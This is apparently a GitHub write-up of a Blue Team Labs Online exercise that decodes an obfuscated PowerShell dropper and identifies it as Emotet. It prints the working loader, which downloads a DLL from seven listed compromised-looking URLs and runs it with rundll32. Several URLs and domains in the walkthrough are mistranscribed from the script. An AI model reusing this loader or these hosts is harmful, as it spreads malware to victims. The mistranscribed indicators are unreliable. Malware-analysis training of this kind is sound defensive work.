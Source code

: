 <h1>Blue Team Labs Online - Malicious PowerShell Analysis lab lab</h1>

<h2>Scenario</h2>
Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?
<br />


<h2>Utilities Used</h2>

- <b>Cyberchef</b> 

<h2>Lab walk-through:</h2>

<!-- <p align="center"> -->
Step 1: <br/> Downloading the appropriate files. In this case, we are privided with the encoded powershell script. <br/>

Step 2: <br /> Research. I came across <a href="https://www.reddit.com/r/cybersecurity/comments/12w808u/easiest_way_to_deobfuscate_heavily_obfuscated/">this</a> Reddit post in which the poster mentions that they usually use the following recipe in Cyberchef: <br /> 
  - From Base64 <br />
  - Decode text <br />
  - Beautify <br />
  - Remove null bytes <br />
  - Gunzip <br />

Using this as a baseline, I went with the following recipe for this particular porblem: <br />
  - From Base64 <br />
  - Remove null bytes <br />
  - Render Markdown <br />

The screenshot below shoes the output obtained from Cyberchef <br />

<img src="https://i.imgur.com/CSLmwwu.png" height="80%" width="80%" alt="Output of recipe in Cyberchef"/> <br />
 Here is the script cleaned up:
 ```
Set-Item ([Type]("{0}{1}{2}{4}{3}" -f 'System','eM.','io.DI','ORY','rect'));

Set-Item ('vaR'+'IabLE'+':mBu') ([Type]("{6}{8}{0}{3}{4}{5}{2}{7}{1}" -f 'SteM','Ger','Ma','.n','et.seRVIcepOi','nt','s','NA','Y'));

$ErrorActionPreference = ('Silently'+'Continue');

$Cvmmq4o = $Q26L +   + $E16H;
$J16J = ('N'+('_0'+'P'));

(Dir Variable:Mku).Value::"CreateDirectory"($HOME + ('{0}Db_bh30Yf5be5g{0}' -f [char]92));

$C39Y = ('U68S');

([Variable]("m"+"bu") -Valueon)::"Securityprotocol" = ('Tls12');

$F35I = ('I4_B');
$Swrp6tc = ('A69S');
$X27H = ('C33O');
$Imd1yck = $HOME + (('UOHDb_'+'b'+'h30UOHYf5be5gUOH').Replace('UOH',[String][char]92)) + $Swrp6tc + ('.dll');

$K47V = ('R49G');
$B9fhbyv = ('anw[3s://admink.com/wp-admin/L/@]anw[3s://mikegeerinck.com/c/YYsa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/S/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-content/de/@]anw[3://www.stmarouns.edu.au/paypal/b8G/@]anw[3s://www.mcdevelop.net/content/6F2gd/').Replace((']anw[3'),([array]('sd','sw'),('http'),'3d')[1]).Split($C83R + $Cvmmq4o + $F10Q);

$Q52M = ('P05K');

foreach ($Bm5pw6z in $B9fhbyv){
    try {
        (&('New'+'-Object') System.Net.WebClient)."DownloadFile"($Bm5pw6z, $Imd1yck);
        $Z10L = ('A92Q');
        If ((&('Get-Item') $Imd1yck)."length" -ge 35698) {
            &('rundll32') $Imd1yck,(('Control_RunDLL')+'.'+"TOSTRING")();
            $R65I = ('Z09B');
            break;
            $K7_H = ('F12U');
        }
    } catch {}
}

$W54I = ('V95O');
````
<br />
  
<b>Question 1:</b>  <br/> 
<b>What security protocol is being used for the communication with a malicious domain?</b> <br />
  Upon looking over the output from Cyberchef, I noticed a line <i>"sEcuRITYproTocol" = ('T'+('ls'+'12'))</i>. The security protocol being used for communication with a malicious domain is <b>TLS 12</b>.
   <br />
   
<b>Question 2:</b>  <br/> 
<b>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</b> <br />
Further review of the output lead me to a line <i>"cREAtedIRECTORy"($HOME + (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') -F [chAR]92))</i>. The expression ('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') when deconcatenated translates to {0}Bd_bh30{0}Yf5be5g{0}. Upon some further research, I learned that -F is a format operator that can format a string with placeholders. <br />

  <img src="https://i.imgur.com/Sj3uUIU.png" height="80%" width="80%" alt="Syntax for the format operator -F"/> <br />
  
  and that char[92] translates to backslash in ASCII <br />
  
   <img src="https://i.imgur.com/d1TpuGV.png" height="80%" width="80%" alt="ASCII table"/> <br />
   
 The powershell creates the directory <b> \HOME\Db_bh30\Yf5be5g\ </b>

<b>Question 3:</b>  <br/> 
<b>What file is being downloaded (full name)?</b> <br />
Looking at the script: <br />
- $Imd1yck = HOME\Dubh30\Yf5be5g\A69S.dll <br />
    ```
    -> $Imd1yck = $HOME + (('UOHDb_'+'b'+'h30UOHYf5be5gUOH').Replace('UOH',[String][char]92)) + $Swrp6tc + ('.dll');
    -> $Imd1yck= $HOME + ('UOHDb_bh30UOHYf5be5gUOH').Replace('UOH',[String][char]92)) + $Swrp6tc + ('.dll');
    -> replace every instance of UOH with backslash = Db_bh30\Yf5be5g\
    -> in the script we are given $Swrp6tc = A69S.
    -> concat what we have left and $Imd1yck = \HOME\Db_bh30\Yf5be5g\A69S.dll
    ```
- $B9fhbyv = array of URLs
    ```
    -> $B9fhbyv = ('anw[3s://admink.com/wp-admin/L/@]anw[3s://mikegeerinck.com/c/YYsa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/S/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-  content/de/@]anw[3://www.stmarouns.edu.au/paypal/b8G/@]anw[3s://www.mcdevelop.net/content/6F2gd/').Replace((']anw[3'),([array]('sd','sw'),('http'),'3d')[1]).Split($C83R + $Cvmmq4o + $F10Q);
    -> the .Replace function calls for any instance of ]anw[3 to be replaced with [array]('sd','sw'),('http'),'3d')[1]
        - [array]('sd','sw'),('http'),'3d')[1] is creating a an array with the values sd, sw, and http. '3d')[1] is saying to select the second element of the array, which is http
        - I assumed that the split function called to split the string at any instance of @[ since we are not provided with the valules of the variables ($C83R + $Cvmmq4o + $F10Q).
    -> we get an array of the following URLs:
        https://admink.com/wp-admin/L/
        https://mikegerinck.com/ccYYsa/
        https://freelancerwebdesignerhabaderabad.com/cgi-bin/S/
        https://etdog.com/wp-content/nu/
        https://www.hintup.com.br/wp-content/de/
        https://www.stmarouns.nsw.edu.au/paypal/b8G/
        https://wm.mcdevelop.net/content/6F2gd/
    -> Lets look at the foreach loop
            
            foreach ($Bm5pw6z in $B9fhbyv){
            try {
                ((New-Object) System.Net.WebClient)."DownloadFile"($Bm5pw6z, $Imd1yck);
           
    -> for each URL in the array of URLs, download a file from that URL specified by that URL +  $Imd1yck which is \HOME\Db_bh30\Yf5be5g\A69S.dll.
    ```
The file being downloaded is <b>A69S.dll</b> <br />
    
<b>Question 4:</b>  <br/> 
<b>What is used to execute the downloaded file?</b>
```
        If ((&('Get-Item') $Imd1yck)."length" -ge 35698) {
            &('rundll32') $Imd1yck,(('Control_RunDLL')+'.'+"TOSTRING")();
            $R65I = ('Z09B');
            break;
            $K7_H = ('F12U');
        }
  -> if the length of the file downlaoded from the url with the path \HOME\Db_bh30\Yf5be5g\A69S.dll is greater than 35698 bytes then run the dll file donwloaded as an executable (rundll32).
```
<b> rundll32 </b> is being used to execute the downloaded file


<b>Question 5:</b>  <br/> 
<b> What is the domain name of the URI ending in ‘/6F2gd/’ </b> <br />
The URI as a whole is https://wm.mcdevelop.net/content/6F2gd/ and the domain name is <b>wm.mcdevelop.net</b> <br />

<b>Question 6:</b>  <br/> 
<b>Based on the analysis of the obfuscated code, what is the name of the malware?</b>
I searched the file A69S.dll on Malware Bazaar and got a hit for the malware known as <b>Emotet</b>. <br />
<img src="https://i.imgur.com/a584Ymr.png" height="80%" width="80%" alt="information about the malware Emotet on Malware Bazaar"/>
